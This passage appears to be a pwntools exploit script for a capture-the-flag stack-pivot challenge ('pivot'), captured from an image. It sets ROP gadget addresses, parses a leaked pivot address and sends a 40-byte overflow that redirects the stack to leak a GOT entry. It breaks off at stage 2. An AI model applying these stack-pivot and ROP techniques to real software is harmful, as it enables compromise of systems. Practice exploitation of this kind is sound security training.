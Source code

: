 ```
]

for s in breakpoints:
    gdbscript += s + "\n"


exe = "./pivot"
elf = context.binary = ELF(exe, checksec=False)
# context.log_level = 'info' # use DEBUG in args for debugging. LOG_LEVEL=warn/info/error for anything else

"""
if args.REMOTE:
    libc = ELF('./libc.so.6', checksec=False)
else:
    libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
"""

# ===========================================================
#                    EXPLOIT STARTS HERE
# ===========================================================
io = start()

xchg_rsp_rax = 0x4009bd
pop_rax      = 0x4009bb
pop_rdi      = 0x400a33
main         = 0x400847
puts_plt     = 0x4006e0
foothold_plt = 0x400720
foothold_got = 0x601040

instructions = io.recvuntil(">")
print("Instructions:\n", instructions)
pivot_addr = int(instructions.split(b"0x")[1].split(b"\n")[0].decode(),16)
print("Pivot addr: ", hex(pivot_addr))
print("Pivot addr encoded: ", p64(pivot_addr))

post_pivot_chain  = p64(foothold_plt)
post_pivot_chain += p64(pop_rdi)
post_pivot_chain += p64(foothold_got)
post_pivot_chain += p64(puts_plt)
post_pivot_chain += p64(main)

io.sendline(post_pivot_chain)

payload  = b"A" * 40
payload += p64(pop_rax)
payload += p64(pivot_addr)
payload += p64(xchg_rsp_rax)
print("Stack smash payload length: ", len(payload))

io.sendlineafter(b">", payload)



# Stage 2
# Parse leaked foothold_function address and calculate address of ret2win

foothold_base_addr = 0x10096a
ret2win_base_addr  = 0x100a81

leak = io.recvuntil(b'>')

```